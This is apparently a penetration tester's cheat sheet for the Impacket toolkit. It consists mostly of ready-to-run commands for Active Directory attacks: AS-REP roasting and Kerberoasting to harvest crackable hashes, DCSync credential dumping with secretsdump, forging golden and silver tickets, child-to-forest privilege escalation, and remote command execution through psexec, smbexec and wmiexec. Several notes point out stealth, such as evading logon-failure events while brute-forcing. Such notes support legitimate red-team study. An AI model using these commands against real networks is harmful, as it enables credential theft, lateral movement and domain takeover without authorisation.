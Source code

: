 # Impacket 
From [Impacket Github](https://github.com/SecureAuthCorp/impacket)
*"Impacket is a collection of Python classes for working with network protocols."*
## What protocols are featured?
-   Ethernet, Linux "Cooked" capture.
-   IP, TCP, UDP, ICMP, IGMP, ARP.
-   IPv4 and IPv6 Support.
-   NMB and SMB1, SMB2 and SMB3 (high-level implementations).
-   MSRPC version 5, over different transports: TCP, SMB/TCP, SMB/NetBIOS and HTTP.
-   Plain, NTLM and Kerberos authentications, using password/hashes/tickets/keys.
-   Portions/full implementation of the following MSRPC interfaces: EPM, DTYPES, LSAD, LSAT, NRPC, RRP, SAMR, SRVS, WKST, SCMR, BKRP, DHCPM, EVEN6, MGMT, SASEC, TSCH, DCOM, WMI, OXABREF, NSPI, OXNSPI.
-   Portions of TDS (MSSQL) and LDAP protocol implementations.

Impacket is an awesome suite of scripts written in python that are incorpated into tools like [[Crackmapexec-Cheatsheet]]. It is very useful suite of tools for [[Active-Directory-Enumeration]], [[Foothold-On-AD]], [[Attacking-Kerberos]], [[Windows-Network-Lateral-Movement]] and general [[Active-Directory-Privilege-Escalation]].

Haak9 Technical tips
```bash
# All the Impacket scripts support Kerberos authentication as well:
# -k -no-pass
# must specify host as FQDN and user as realm/user
       
# MISC
# - NETLOGON is inefficient (SMB, rpcclient)
# - RDP is slow
# - LDAP binds are faster but still result in event 4625

# Ask for password
kinit user

# Events ID
# - Failing Kerberos pre-authentication DOES NOT trigger a Logon failure event (4625):
# - Have to manually specify event logging for Kerberos (which is in a different location)
# - If you're only logging on traditional “Logon failures”, you'd miss this.
# - Now failures will be logged as event 4771.
# - So Kerberos pre-auth is a faster and potentially stealthier way to bf password.
```

## dccomexec.py 
Useful for [[Windows-Network-Lateral-Movement]].  A semi-interactive shell similar to wmiexec.py, but using different DCOM endpoints. Currently supports MMC20.Application, ShellWindows and ShellBrowserWindow objects.
```bash
dccomexec.py $domain/$username:$password@$IP <command>
```
## dpapi.py
Password Encryption tool on Windows

## GetNPUsers.py
For users that do not require Kerberos preauthentiation: 
'Do not require Kerberos preauthentication' set (UF_DONT_REQUIRE_PREAUTH). 
Output is compatible with JtR:[[John-The-Ripper-Cheatsheet]] use `-format hashcat` for  hashcat:[[Hashcat-Cheatsheet]] 

```bash
GetNPUSers.py  -dc-ip $IP -request '$domain/' 
GetNPUSers.py  -dc-ip $IP -request '$domain/' -format hashcat
```
This example will attempt to list and get TGTs for those users that have the property:
```bash
# Get TGT for a user
→ GetNPUsers.py $domain/$user -no-pass
# Get a list of users with UF_DONT_REQUIRE_PREAUTH set
→ GetNPUsers.py $domain/$user:password or GetNPUsers.py $domain/$user
# Request TGTs for all users
→ GetNPUsers.py $domain/$user:password -request or GetNPUsers.py $domain/$user
# Request TGTs for users in a file
→ GetNPUsers.py $domain/ -no-pass -usersfile users.txt
```

## GetTGT.py
Given a password, hash or aesKey, this script will request a TGT and save it as ccache.
```bash
getTGT.py -hashes lm:nt domain.com/user
```

## GetST.py
Given a password, hash, aesKey or TGT in ccache, this script will request a Service Ticket and save it as ccache. If the account has constrained delegation (with protocol transition) privileges you will be able to use the -impersonate`.
switch to request the ticket on behalf another user.
```bash
getST.py -hashes $lm:$nt -spn $spn/$spn-dc $domain$/$user
```

# GetUserSPNs.py
This example will try to find and fetch Service Principal Names that are associated with normal user accounts. Output is compatible with JtR and HashCat.
```bash
GetUserSPNs.py -dc-ip $dc-ip $spn.info/$notanadmin
```

## mssqlclient.py

```bash
mssqlclient.py -port $PORT $domain/$user@$IP -windows-auth
```

## psexec.py
Similiar to [[Sysinternals-Psexec]] like functionality example using [RemComSvc](https://github.com/kavika13/RemCom).
```bash

psexec.py $domain/$username:$password@$IP <command>
```

## raiseChild.py
This script implements a child-domain to forest privilege escalation by (ab)using the concept of Golden Tickets and ExtraSids. [[Attacking-Kerberos]] 
```bash
python raiseChild.py childDomain.net/$adminuser
python raiseChild.py childDomain.net/$adminuser:mypwd
python raiseChild.py -hashes LMHASH:NTHASH childDomain.net/$adminuser
```
This will perform the attack and then psexec against target-exec as Enterprise Admin
```bash
python raiseChild.py -target-exec targetHost childDomainn.net/$adminuser
```
This will save the final goldenTicket generated in the ccache target file
```bash
python raiseChild.py -w ccache childDomain.net/$adminuser
```

## secretsdump.py

Exploit DCSync Privileges
```bash
secretsdump.py -dc-ip $IP $domain/$user@$ip
```

## smbexec.py
A similar to `psexec.py` without using [RemComSvc](https://github.com/kavika13/RemCom). Instantiates a local smbserver to then receive the output of commands.
```bash
smbexec.py $domain/$username:$password@$IP <command>
```
This is useful in the situation where the target machine does NOT have a writeable share available.

## smbserver.py
Host a Python implementation of an SMB server. Allows to quickly set up shares and user accounts
```bash
smbserver.py $SHARENAME /path/to/your/local/share
smbserver.py $SHARENAME /path/to/your/local/share --username $user --password 
$password
```
[IppsecRocks](https://ippsec.rocks/?#), start the smbserver your current directory
```bash
impacket-smbserver scriptserver $(pwd) -smb2support -user user -password pass
```
On remote:
```powershell
$pass = convertto-securestring 'pass' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('user', $pass)
New-PSDrive -Name user -PSProvider FileSystem -Credential $cred -Root \\$IP
```

## ticketer
This script will create Golden/Silver tickets from scratch or based on a template (legally requested from the KDC).
```bash
ticketer.py -nthash <krbtgt/service nthash> -domain-sid <your domain SID> -domain <your domain FQDN> baduser
```

## wmiexec.py
A semi-interactive shell, used through Windows Management Instrumentation. It does not require to install any service/agent at the target server. Runs as Administrator. Highly stealthy.
```bash
wmiexece.py $domain/$username:$password@$IP <command>
```

## References
[IppsecRocks](https://ippsec.rocks/?#)
[Haax9](https://cheatsheet.haax.fr/windows-systems/exploitation/remote_execution_techniques/)
[RemComSvc](https://github.com/kavika13/RemCom)